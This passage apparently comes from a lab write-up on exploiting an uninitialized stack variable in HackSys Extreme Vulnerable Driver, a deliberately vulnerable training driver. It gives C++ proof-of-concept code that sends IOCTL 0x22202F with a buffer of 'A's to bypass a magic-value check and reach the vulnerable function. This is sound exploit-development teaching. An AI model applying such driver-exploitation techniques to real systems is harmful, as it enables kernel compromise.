 ## Driver I/O and IOCTL communication

Now we can start our communication with the device driver since we have our IOCTL, and we know what to do. We need to use the IOCTL `0x22202F` and we also need to bypass the check with the MagicValue by including a buffer that is not `0xBAD0B0B0`, so we can utilize and provide a buffer of A's if we want to be classy.

```c++
#include <windows.h>
#include <iostream>

#define DEVICE_NAME "\\\\.\\HackSysExtremeVulnerableDriver"
#define IOCTL 0x22202F

int main(){
    std::cout << "[+] HEVD - Uninitialized Stack Variable Windows 7 x86 exploit POC\n\n";
    HANDLE hDevice = CreateFileA(DEVICE_NAME,
                                 GENERIC_READ | GENERIC_WRITE,
                                 FILE_SHARE_READ | FILE_SHARE_WRITE,
                                 NULL,
                                 OPEN_EXISTING,
                                 FILE_FLAG_OVERLAPPED | FILE_ATTRIBUTE_NORMAL,
                                 NULL);

    if (hDevice == INVALID_HANDLE_VALUE){
        std::cout << "[!] Failed to establish a device handler" << GetLastError() << std::endl;
    } else {
        std::cout << "[+] Established a handle to the device - " << DEVICE_NAME << std::endl;
    }

    DWORD sizeReturn = 0x0;
    char userBuffer[] = "\x41\x41\x41\x41";
    std::cout << "[+] Sending buffer of size: " << sizeof(userBuffer) << std::endl;
    DeviceIoControl(hDevice,
                    IOCTL,
                    &userBuffer,
                    sizeof(userBuffer),
                    NULL,
                    0,
                    &sizeReturn,
                    NULL);
}

```

The obvious thing to note from out IOCTL communication script is the buffer `char userBuffer[] = "\x41\x41\x41\x41";` which bypasses the MagicValue check of `0xBAD0B0B0`.

If you set a bp on the trigger function, you can hit it with this IOCTL

If you include your buffer as the magic value, you won't get an exception, if you include the A's payload, you hit the breakpoint.
